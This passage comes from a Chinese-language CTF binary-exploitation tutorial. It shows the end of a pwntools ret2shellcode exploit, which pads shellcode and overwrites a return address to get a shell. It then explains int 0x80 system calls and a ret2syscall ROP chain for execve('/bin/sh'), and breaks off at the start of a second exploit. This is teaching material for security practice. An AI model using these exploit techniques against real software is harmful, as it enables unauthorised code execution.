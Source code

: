 ```

buf_addr = 0x0804A080
shellcode = asm(shellcraft.sh())    #在脚本中生成一个shellcode
payload =''
payload += shellcode.ljust(112,'a') #防止生成的shellcode长度不够112，用垃圾字符填充
payload += p32(buf_addr)

sh.sendline(payload)
sh.interactive()
```
![](9.png)

### 0x02 ret2syscall
这个需要了解系统调用的知识。
#### 系统调用(简要介绍)
系统调用:运行在用户空间的程序向操作系统内核请求需要更高权限运行的服务。系统调用提供用户程序与操作系统之间的接口。大多数系统交互式操作需求在内核态运行。
</br>
整个过程如下：首先指令流执行到系统调用函数时，系统调用函数通过int 0x80指令进入系统调用入口程序，并且把系统调用号放入%eax中，如果需要传递参数，则把参数放入%ebx，%ecx和%edx中。进入系统调用入口程序（System_call）后，它首先把相关的寄存器压入内核堆栈（以备将来恢复），这个过程称为保护现场。保护现场的工作完成后，开始检查系统调用号是不是一个有效值，如果不是则退出。接下来根据系统调用号开始调用系统调用处理程序（这是一个正式执行系统调用功能的函数），从系统调用处理程序返回后，就会去检查当前进程是否处于就绪态、进程时间片是否用完，如果不在就绪态或者时间片已用完，那么就会去调用进程调度程序schedule()，转去执行其他进程。如果不执行进程调度程序，那么接下来就会开始执行ret_from_sys_call，顾名思义，这这个程序主要执行一些系统调用的后处理工作。比如它会去检查当前进程是否有需要处理的信号，如果有则去调用do_signal()，然后进行一些恢复现场的工作，返回到原先的进程指令流中。至此整个系统调用的过程就结束了。
</br>![](11.png)
回到这题，同样的它开启了NX保护，进入ida中查看反汇编;
![](12.png)
</br>正如上面的反汇编代码所说，这题无system函数，也无法使用shellcode,这时候我们考虑系统调用。系统函数调用的指令是int 0x80,这是固定指令，他有四个参数：
+ 系统调用号，即 eax 应该为 0xb
+ 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
+ 第二个参数，即 ecx 应该为 0
+ 第三个参数，即 edx 应该为 0</br>

接下来我们就要一点点的去拼凑这些内容，我们没法直接在栈里写指令，只能够利用程序中自带的指令去拼凑。
</br>首先我们将eax设置为0xb，我们是没法直接往栈里写mov eax,0xb的，那么还有另一种方式是pop eax，但是要保证栈顶必须是0xb。
</br>然后设置ebx,ecx,edx，同样是这样的道理，所以我们可以想象栈中的数据是：
</br>
pop eax；ret
</br></br>
0xb
</br></br>
pop ebx;pop ecx;pop edx;ret
</br></br>
"/bin/sh"的地址
</br></br>
0
</br></br>
0
</br></br>
int 0x80的地址
</br>接下来我们就要找pop eax,pop ebx,pop ecx,pop edx的指令,这需要用到ROPgadget（我才知道有这个，装了好久才弄好，呜呜呜呜呜呜呜）
![](13.png)
</br>--only是指只有pop和ret指令
</br>接下来找'/bin/sh'字符
![](14.png)
</br>找int 0x80地址
![](15.png)
</br>最后写exp:
```
from pwn import *

sh = process('./rop')
```